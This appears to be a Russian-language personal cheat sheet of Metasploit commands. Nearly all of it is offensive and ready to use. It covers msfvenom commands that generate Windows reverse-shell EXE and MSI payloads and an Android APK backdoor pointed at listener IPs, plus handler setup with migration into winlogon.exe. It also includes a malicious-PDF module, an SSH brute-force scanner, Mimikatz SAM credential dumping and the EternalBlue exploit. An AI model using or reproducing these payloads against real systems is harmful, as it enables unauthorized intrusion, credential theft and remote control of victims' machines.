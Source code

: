 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run


use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
set payload windows/x64/meterpreter_reverse_tcp

желательно для виндовс
set PAYLOAD windows/x64/shell_reverse_tcp

set lhost 192.168.0.9

set lport 4444

exploit


Для АНДРОИД
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу

Код:

exploit


Для брута use auxiliary/scanner/ssh/ssh_login


МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam



eternalblue

use exploit/windows/smb/ms17_010_eternalblue
   show payloads
